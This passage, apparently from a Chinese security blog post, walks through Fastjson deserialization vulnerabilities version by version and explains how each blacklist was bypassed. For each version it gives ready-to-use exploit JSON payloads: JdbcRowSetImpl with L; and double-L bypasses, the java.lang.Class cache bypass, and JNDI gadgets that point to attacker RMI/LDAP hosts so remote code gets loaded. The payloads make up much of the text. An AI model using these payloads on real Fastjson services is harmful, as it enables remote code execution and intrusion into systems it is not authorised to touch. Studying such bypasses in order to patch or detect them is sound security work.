 运行之后就会把test.class文件转换为base64.txt文件，这时候再把base64.txt文件替换到payload中即可在dnslog中回显

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095655.png)image-20210819102057605

## < 1.2.41

第一个Fastjson反序列化漏洞爆出后，阿里在1.2.25版本设置了autoTypeSupport属性默认为false，并且增加了checkAutoType()函数，通过黑白名单的方式来防御Fastjson反序列化漏洞，因此后面发现的Fastjson反序列化漏洞都是针对黑名单绕过来实现攻击利用的目的的。

com.sun.rowset.jdbcRowSetlmpl在1.2.25版本被加入了黑名单，fastjson有个判断条件判断类名是否以"L"开头、以";"结尾，是的话就提取出其中的类名在加载进来

那么就可以构造如下exp

    
    
    {               "@type":"Lcom.sun.rowset.JdbcRowSetImpl;",    "dataSourceName":"rmi://ip:9999/rce_1_2_24_exploit",    "autoCommit":true}

## < 1.2.42

阿里在发现这个绕过漏洞之后做出了类名如果为`L`开头，;结尾的时候就先去掉`L`和`;`进行黑名单检验的方法，但是没有考虑到双写或多写的情况，也就是说这种方法只能防御一组`L`和`;`，构造exp如下，即双写`L`和`;`

    
    
    {               "@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",    "dataSourceName":"rmi://x.x.x.x:9999/exp",    "autoCommit":true}

## < 1.2.47

在1.2.47版本及以下的情况下，loadClass中默认cache为true，首先使用java.lang.Class把获取到的类缓存到mapping中，然后直接从缓存中获取到了com.sun.rowset.jdbcRowSetlmpl这个类，即可绕过黑名单

    
    
    { "a": { "@type": "java.lang.Class",  "val": "com.sun.rowset.JdbcRowSetImpl" },  "b": { "@type": "com.sun.rowset.JdbcRowSetImpl",  "dataSourceName": "rmi://ip:9999/exp",  "autoCommit": true }}

## < 1.2.66

基于黑名单绕过，autoTypeSupport属性为true才能使用，在1.2.25版本之后autoTypeSupport默认为false

    
    
    {"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://ip:1389/Calc"}{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://ip:1389/Calc"}{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://ip:1389/Calc"}

  

**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210822095656.png)**

  

 **推荐阅读：**

  

 **[干货 |
Spring系列CVE以及POC编写](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498027&idx=1&sn=6800b032fb7d44edf98b8a95187a3d73&chksm=ec1cac14db6b25022aecbca4b54b9e76f8c5de9a448d0fcc4f36b7ef45daaa25b32829c24b6b&scene=21#wechat_redirect)  
**

